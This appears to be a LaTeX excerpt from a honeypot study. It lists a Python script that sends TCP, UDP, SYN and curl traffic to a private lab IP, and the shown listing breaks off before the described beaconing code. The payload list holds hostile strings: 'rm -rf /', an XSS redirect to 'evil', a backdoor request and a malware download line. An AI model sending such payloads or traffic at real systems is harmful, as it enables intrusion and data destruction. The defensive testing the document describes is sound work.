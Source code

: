 \documentclass{article}
\begin{document}
\subsubsection*{2. Attack Execution Script}
The attack was orchestrated using a comprehensive Python script that simulates multiple attack vectors (TCP/UDP connections, SYN floods via Scapy, HTTP requests via \texttt{curl}, telnet attempts, and custom payload delivery). The script also simulates C2-style beaconing. See Listing~\ref{lst:attack} for the complete implementation.
\begin{lstlisting}[language=python, caption={Attack Execution Code (\texttt{attack.py})}, label={lst:attack}]
import socket
import subprocess
import time
from random import choice
from scapy.all import IP, TCP, UDP, Raw, send

# Target honeypot
TARGET_IP = "192.168.110.213"
ATTACK_PORT = 4444

# Simulated C2/malware-style payloads
ATTACK_PAYLOADS = [
    b"GET /cgi-bin/backdoor.sh HTTP/1.1\r\nHost: malware\r\n\r\n",
    b"POST /login HTTP/1.1\r\nHost: evil\r\nContent-Length: 35\r\n\r\nusername=admin&password=hackme",
    b"cmd=upload&token=rat1337",
    b"rm -rf / --force",
    b"<script>document.location='http://evil';</script>",
    b"heartbeat=alive&bot_id=xyz123",
    b"download http://192.168.110.213/malware.exe",
]

def connect_tcp(ip, port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(1)
        s.connect((ip, port))
        s.close()
        print(f"[+] TCP connection to {ip}:{port} succeeded")
    except:
        print(f"[-] TCP connection to {ip}:{port} failed (expected)")

def connect_udp(ip, port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.sendto(b"udp_test_payload", (ip, port))
        s.close()
        print(f"[+] UDP datagram sent to {ip}:{port}")
    except:
        print(f"[-] UDP send to {ip}:{port} failed")

def scapy_tcp_syn(ip, port):
    pkt = IP(dst=ip)/TCP(dport=port, flags="S")
    send(pkt, count=1, verbose=0)
    print(f"[+] Scapy TCP SYN sent to {ip}:{port}")

def scapy_udp(ip, port):
    pkt = IP(dst=ip)/UDP(dport=port)/Raw(load="scapy_payload")
    send(pkt, count=1, verbose=0)
    print(f"[+] Scapy UDP packet sent to {ip}:{port}")

def curl_http(ip, port, payload):
    try:
        subprocess.run(
            ["curl", "-X", "POST", f"http://{ip}:{port}/", "--data", payload.decode(errors="ignore")],
            timeout=3,
            stdout=subprocess.DEVNULL,
            stderr=subprocess.DEVNULL
        )
        print(f"[+] curl POST to {ip}:{port} with payload")
    except Exception as e:
        print(f"[-] curl to {ip}:{port} failed: {e}")


\end{lstlisting}
\end{document}
